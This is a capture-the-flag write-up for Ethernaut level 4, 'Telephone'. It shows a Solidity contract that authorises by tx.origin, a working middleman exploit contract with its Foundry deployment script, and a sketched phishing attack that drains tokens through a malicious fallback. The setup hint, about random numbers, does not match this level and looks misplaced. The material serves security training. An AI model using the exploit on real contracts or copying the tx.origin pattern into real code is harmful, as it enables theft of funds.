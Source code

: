 # Level 4 - Telephone ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/4" %}

### Level Setup

{% hint style="info" %}
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Telephone.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
{% endcode %}

### Exploit

The contract is vulnerable because the `msg.sender` is the address that sent the transaction to interact with the contract, but this is only the final address if the transaction involved multiple contracts.

1. Create a middleman contract so that `x.origin != msg.sender`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-4

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-4

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level4.sol" %}

{% code title="src/Level4.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

// ================================================================
// │                      LEVEL 4 - TELEPHONE                     │
// ================================================================
contract TelephoneMiddleman {
    function run(address _targetContractAddress) public {
        ITelephone(_targetContractAddress).changeOwner(msg.sender);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level4.s.sol" %}

{% code title="script/Level4.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {TelephoneMiddleman} from "../src/Level4.sol";

// ================================================================
// │                      LEVEL 4 - TELEPHONE                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        TelephoneMiddleman telephoneMiddleman = new TelephoneMiddleman();
        telephoneMiddleman.run(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
{% endhint %}

### Notes

* [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
* In a simple call chain `A->B->C->D` inside `D` `msg.sender` will be `C` and `tx.origin` will be `A`.
